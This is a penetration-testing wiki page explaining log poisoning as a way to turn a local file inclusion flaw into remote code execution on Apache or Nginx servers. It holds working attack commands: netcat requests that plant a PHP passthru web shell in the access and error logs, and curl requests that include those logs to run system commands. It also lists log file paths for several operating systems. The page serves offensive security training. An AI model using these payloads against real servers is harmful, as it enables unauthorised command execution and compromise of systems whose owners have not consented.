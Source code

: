# Log poisoning

{% embed url="https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning" %}

### /var/log/apache2/access.log

When the web application is using an Apache 2 server, the `access.log` may be accessible using an LFI.

* **About `access.log`**: records all requests processed by the server.
* **About netcat**: using netcat avoids URL encoding.

```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/apache2/access.log&cmd=id
```

There are [some variations](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) of the `access.log` path and file depending on the operating system/distribution:

* RHEL / Red Hat / CentOS / Fedora Linux Apache access file location: `/var/log/httpd/access_log`
* Debian / Ubuntu Linux Apache access log file location: `/var/log/apache2`/access.log
* FreeBSD Apache access log file location: `/var/log/httpd-access.log`
* Windows Apache access log file location: \*\*\*\* `C:\xampp\apache\logs`

Or if the web server is under Nginx :

* Linux Nginx access log file location: `/var/log/nginx/access.log`
* Windows Nginx access log file location: `C:\nginx\log`

### /var/log/apache/error.log

This one is similar to the `access.log`, but instead of putting simple requests in the log file, it will put errors in `error.log`.

```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/apache2/error.log&cmd=i
```
